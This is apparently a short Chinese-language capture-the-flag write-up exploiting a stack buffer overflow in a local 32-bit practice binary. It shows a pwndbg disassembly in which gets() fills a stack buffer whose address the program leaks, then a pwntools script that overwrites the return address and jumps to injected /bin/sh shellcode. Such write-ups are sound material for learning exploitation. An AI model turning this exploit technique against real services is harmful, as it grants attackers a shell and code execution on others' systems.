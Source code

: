 ## 分析

```assembly
$ gdb test -q
pwndbg: loaded 164 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from test...(no debugging symbols found)...done.
pwndbg> disass pwnthis
Dump of assembler code for function pwnthis:
   0x080484db <+0>:	push   ebp
   0x080484dc <+1>:	mov    ebp,esp
   0x080484de <+3>:	sub    esp,0x18
   0x080484e1 <+6>:	sub    esp,0x8
   0x080484e4 <+9>:	lea    eax,[ebp-0x12]
   0x080484e7 <+12>:	push   eax
   0x080484e8 <+13>:	push   0x80485f0
   0x080484ed <+18>:	call   0x80483a0 <printf@plt>
   0x080484f2 <+23>:	add    esp,0x10
   0x080484f5 <+26>:	sub    esp,0xc
   0x080484f8 <+29>:	lea    eax,[ebp-0x12]
   0x080484fb <+32>:	push   eax
   0x080484fc <+33>:	call   0x80483b0 <gets@plt>
   0x08048501 <+38>:	add    esp,0x10
   0x08048504 <+41>:	mov    eax,0x0
   0x08048509 <+46>:	leave  
   0x0804850a <+47>:	ret    
End of assembler dump.
pwndbg> b *0x80483b0
Breakpoint 1 at 0x80483b0
pwndbg> r
Starting program: /home/lometsj/test 
ffffd136

Breakpoint 1, 0x080483b0 in gets@plt ()
pwndbg> x/20x $esp
0xffffd11c:	0x08048501	0xffffd136	0xffffd136	0x00002000
0xffffd12c:	0xf7e63ff0	0xf7fb05a0	0xf7ffd918	0x00000000
0xffffd13c:	0x08048552	0xf7fb0cc0	0x00000000	0xffffd158
0xffffd14c:	0x0804855a	0xf7fb03dc	0xffffd170	0x00000000
0xffffd15c:	0xf7e16637	0xf7fb0000	0xf7fb0000	0x00000000

```

## 攻击
- 溢出点：0x12+4
- shellcode地址：s+0x12+4+4
攻击脚本：
```python
from pwn import *
#context.log_level = 'debug' 
p = process("./test")
sc = asm(shellcraft.i386.sh())    
temp = int(p.recvline(),16)               
sc_addr = p32(temp + 0x12 + 4 + 4)    
payload = 0x12 * 'a' + 'bbbb' + sc_addr + sc  
p.sendline(payload)
p.interactive()
```
